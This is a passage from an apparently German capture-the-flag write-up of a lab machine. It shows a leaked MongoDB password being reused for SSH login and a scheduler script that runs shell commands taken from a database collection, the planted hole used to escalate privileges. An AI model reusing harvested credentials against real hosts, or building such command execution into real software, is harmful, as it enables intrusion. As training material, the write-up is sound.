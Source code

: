 Es wird anscheinend [MongoDB](https://www.mongodb.com/de) und der Nutzername **mark** mit dem Passwort **5AYRft73VtFpc84k** um sich bei [MongoDB](https://www.mongodb.com/de) anzumelden.

Probieren wir diese Anmeldedaten bei **SSH** aus.

```shell
root@kali:~# ssh mark@10.10.10.58
[...]
mark@node:~$
```

Es hat tatsächlich funktioniert.

```shell
mark@node:~$ ls /home
frank mark tom
```

Unter **/home** sind noch 2 andere Benutzer zu finden. **frank** und **tom**.

```shell
mark@node:~$ ps aux | grep tom
tom 1224 0.0 5.7 1008560 43964 ? Ssl 05:06 0:06 /usr/bin/node /var/scheduler/app.js
tom 1231 3.2 8.1 1034224 61784 ? Ssl 05:06 12:28 /usr/bin/node /var/www/myplace/app.js
```

2 Prozesse gehören **tom**. Sehen wir uns **/var/scheduler/app.js** an.

```shell
mark@node:~$ cat /var/scheduler/app.js

const exec = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID = require('mongodb').ObjectID;
const url = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});
```

